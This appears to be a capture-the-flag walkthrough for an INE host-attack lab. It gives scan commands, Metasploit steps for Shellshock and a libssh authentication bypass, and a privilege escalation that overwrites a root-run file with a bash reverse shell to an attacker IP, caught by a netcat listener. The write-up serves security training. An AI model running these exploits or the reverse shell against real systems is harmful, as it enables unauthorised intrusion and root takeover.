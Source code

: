 # Host & Network Penetration Testing: System-Host Based Attacks CTF 2
### Flag 1: Check the root ('/') directory for a file that might hold the key to the first flag on target1.ine.local

We begin with an Nmap scan across all ports, which reveals that only port 80 is open

    nmap -sS -O -p- -T4 target1.ine.local
    nmap -sS -O -p80 -sV -T4 target1.ine.local

A service scan reveals Apache 2.4.6 (Unix) on the target system.

We proceed with a Dirb scan to enumerate possible useful folders. It finds cgi-dbin folder and the home page of the site named browser.cgi.
This suggest we could attempt a Shellshocked vulnerability exploit.

    nmap target1.ine.local --script http-shellshock --script-args "http-shellshock.uri=/browser.cgi"

Nmap reveals that the file browser.cgi is vulnerable to Shellshock.

We proceed with Metasploit:
- search shellshock
- use exploit/multi/http/apache_mod_cgi_bash_env_exec
- setg RHOSTS target1.ine.local
- setg TARGETURI /browser.cgi
- setg LHOST 192.164.224.2 
- run

Note: If something is not working, try selecting another LPORT.

We obtain a Meterpreter session and start exploring the target server, finding .flag.txt as our second flag.
Navigating to the root directory, we locate the first flag.

Flag 2: In the server's root directory, there might be something hidden. Explore '/opt/apache/htdocs/' carefully to find the next flag on target1.ine.local.

This flag is found during the previous step.


Flag 3: Investigate the user's home directory and consider using 'libssh_auth_bypass' to uncover the flag on target2.ine.local.

Analyzing target 2, we scan it with Nmap. The scan leads us to port 22 and its service, libssh 0.8.3.

nmap target2.ine.local -p- -T4 -sS
nmap target2.ine.local -p22 -T4 -sS -sV

Using:
searchsploit libssh

we discover that this particular version of libssh is vulnerable to unauthorized access.

We proceed with Metasploit:
search libssh
use auxiliary/scanner/ssh/libssh_auth_bypass - action: shell
setg RHOSTS target2.ine.local
set CMD /bin/bash -i
run
sessions -i 1

Navigating to the home folder of the user, we locate the third flag.


Flag 4: The most restricted areas often hold the most valuable secrets. Look into the '/root' directory to find the hidden flag on target2.ine.local.

Obtaining a root shell is not an easy task. However, there is an executable file in the user’s home folder named welcome, which the user is able to execute. This file runs another file, greetings, that is not accessible.

We overwrite greetings with a file containing the following string:
 
bash -i >& /dev/tcp/192.164.224.2/41234 0>&1

After using Netcat to open port on the attack machine to listen for communications:

nc -nlvp 41234

We execute welcome, that executes greetings, obtaining a root shell on the target machine.

Navigating to the root folder we find the last flag.
